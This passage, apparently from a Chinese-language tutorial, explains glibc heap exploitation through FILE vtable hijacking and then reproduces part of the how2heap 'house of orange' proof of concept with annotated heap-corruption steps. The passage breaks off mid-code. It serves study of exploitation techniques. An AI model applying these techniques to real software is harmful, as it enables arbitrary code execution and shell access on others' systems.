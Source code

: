 ![paste image](http://oy9h5q2k4.bkt.clouddn.com/151263746988846mmixxo.png?imageslim)

`free` 掉后，调用 `fopen` 会占用这个内存
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1512637720387deshksip.png?imageslim)

查看 `vtable` 也是符合预期
![paste image](http://oy9h5q2k4.bkt.clouddn.com/15126377713979pirrqdn.png?imageslim)

替换`vtable`指针之后
![paste image](http://oy9h5q2k4.bkt.clouddn.com/15126378684082t5esiwh.png?imageslim)

`close` 函数已经被修改为 `pwn` 函数，最后调用 `fclose` 函数，就会调用 `pwn` 函数


**house of orange**

为了便于调试，使用 [how2heap](https://raw.githubusercontent.com/shellphish/how2heap/master/house_of_orange.c) 的代码进行调试分析。


```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner ( char *ptr);

int main()
{


    char *p1, *p2;
    size_t io_list_all, *top;

    // 首先分配一个 0x400 的 chunk
    p1 = malloc(0x400-16);

    // 拿到 top chunk的地址
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    // 修改 top chunk 的 size
    top[1] = 0xc01;

    // 触发 syscall 的 _int_free, top_chunk 放到了 unsort bin
    p2 = malloc(0x1000);

    // 根据 fd 指针的偏移计算 io_list_all 的地址
    io_list_all = top[2] + 0x9a8;

    // 修改 top_chunk 的 bk 为  io_list_all - 0x10 ， 后面会触发
    top[3] = io_list_all - 0x10;

    /*
     设置 fp 指针指向位置 开头 为 /bin/sh
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    // 修改 top chunk 的 大小 为 0x60
    top[1] = 0x61;

    /*
      为了可以正常调用 overflow() ，需要满足一些条件
      fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base
    */

```